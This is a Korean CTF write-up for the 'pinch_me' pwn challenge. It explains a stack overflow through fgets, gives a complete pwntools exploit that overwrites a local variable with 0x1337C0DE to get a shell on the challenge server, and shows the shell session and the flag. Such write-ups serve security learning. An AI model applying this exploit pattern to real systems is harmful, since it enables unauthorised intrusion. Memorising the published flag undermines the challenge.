


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[pinch_me.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

vuln함수로 들어오면 fget함수에서 overflow가 터지고 rbp+var_8은 0x1337C0DE가 되어야 쉘을 획득할 수 있다.



다음과 같이 exploit 코드로 flag를 획득할 수 있다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload = b''
payload += b'\x00'*(0x20 - 0x08)
payload += p32(0x1337C0DE)
payload += p32(0x1234567)

p.recvuntil('dreaming?')
p.sendline(payload)
p.interactive()

[Output]
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pinch_me'
[*] Switching to interactive mode

$ ls -al
total 40
drwxr-xr-x 1 root  root   4096 May 14 01:38 .
drwxr-xr-x 1 root  root   4096 May 14 01:39 ..
-rw-r--r-- 1 root  root     37 May 14 01:37 flag.txt
-rwxr-xr-x 1 pilot pilot 16632 May 14 01:37 pinch_me
-rw-r--r-- 1 root  root    204 May 14 01:37 startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pinch_me
chmod +x /app/pinch_me
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pinch_me"'
done
################################################
```


# **FLAG**

**dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}**